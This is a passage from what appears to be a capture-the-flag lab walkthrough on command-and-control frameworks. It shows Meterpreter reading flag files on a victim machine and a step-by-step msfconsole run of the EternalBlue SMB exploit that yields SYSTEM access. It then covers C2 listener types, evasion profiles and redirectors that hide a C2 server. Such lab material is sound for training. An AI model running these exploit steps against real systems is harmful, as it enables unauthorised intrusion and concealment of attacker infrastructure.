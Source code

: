    - **Step 3: Retrieve Flags**
     - Use Meterpreter’s `cat` command to read files directly from the victim's system.
     - For example:
       ```plaintext
       meterpreter > cat C:/Users/Administrator/Desktop/root.txt
       THM{bd6ea6c87<snip>21081132744}
       meterpreter > cat C:/Users/Ted/Desktop/user.txt
       THM{217fa45e3<snip>fc0be28e760}
       ```

---

### **4. Using Metasploit for EternalBlue Exploitation (Alternative to Armitage)**

If you'd rather use Metasploit’s console interface:

1. **Launch Metasploit**:
   ```bash
   root@attackbox$ msfconsole -q
   ```
2. **Set Up the EternalBlue Exploit**:
   ```plaintext
   msf5 > use exploit/windows/smb/ms17_010_eternalblue
   msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST eth0
   msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOST VICTIM_IP
   msf5 exploit(windows/smb/ms17_010_eternalblue) > run
   ```
3. **Confirm Successful Exploitation**:
   - If successful, Meterpreter will open, and you’ll have SYSTEM-level access.

---

### **5. Types of Listeners in C2 Frameworks**

Familiarize yourself with common listener types in C2 frameworks for flexibility in future exploitation tasks:

- **Standard Listener**: Basic TCP/UDP listener that communicates over raw sockets.
- **HTTP/HTTPS Listener**: Fronts as web traffic, often using Malleable C2 profiles for evasion.
- **DNS Listener**: Ideal for environments with limited protocol access, using DNS for communication.
- **SMB Listener**: Uses named pipes for restricted networks, useful for pivoting between multiple hosts.

---

### **Practice and Exploration**

Now that you understand the basics, practice creating listeners, generating payloads, and enumerating additional targets. By experimenting with different exploits and modules in Armitage or Metasploit, you’ll gain a stronger grasp of exploitation and post-exploitation in a controlled environment.

In advanced Command and Control (C2) operations, **Redirectors** play a key role in enhancing operational security by masking the true location of a C2 server. This setup allows incoming requests from compromised machines to pass through an intermediary server (redirector) before reaching the actual C2 server, thereby protecting the C2 infrastructure and adding a layer of obfuscation.

